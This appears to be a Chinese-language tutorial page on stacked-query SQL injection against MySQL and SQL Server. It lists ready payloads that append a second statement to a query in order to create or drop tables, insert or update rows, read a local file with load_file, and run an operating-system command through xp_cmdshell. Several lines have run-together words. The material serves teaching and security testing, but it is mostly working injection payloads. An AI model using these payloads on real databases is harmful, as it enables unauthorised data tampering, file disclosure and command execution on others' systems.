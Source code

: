 ### Mysql 数据库

```
Mysql.exe -h127.0.0.1 -uroot -proot
```



（1）新建一个表 

```
select * from users where id=1;create table test like users;
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awuwpzvej205w053n6m.jpg)

（2）删除上面新建的 test 表 

```
Select * from users where id=1;drop table test;
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awv0g4xij20bz09240d.jpg)

（3）查询数据 

```
Select * from users where id=1;select1,2,3;
```



![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awv6x8scj20bp067779.jpg)

 （4）加载文件

```
 select * from users whereid=1;select load_file('F:\1.txt');
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awvfe79hj20f706dgqf.jpg)

（5）修改数据 

```
Select * from users where id=1;insert into users(id,username,password) values('100','new','new');
```

![](https://ws1.sinaimg.cn/large/b6de3d7dly1g0awvqdizbj20nq0dzabp.jpg)

 

### Sql server 数据库

```
(1)增加数据表 select * from test;create table sc3(ssCHAR(8));

(2)删除数据表 select * from test;drop table sc3;

(3)查询数据 select 1,2,3;select * from test;

(4)修改数据 select * from test;update test set name='test'where id=3;

(5)sqlserver中最为重要的存储过程的执行 select * from test where id=1;execmaster ..xp_cmdshell 'ipconfig'
```
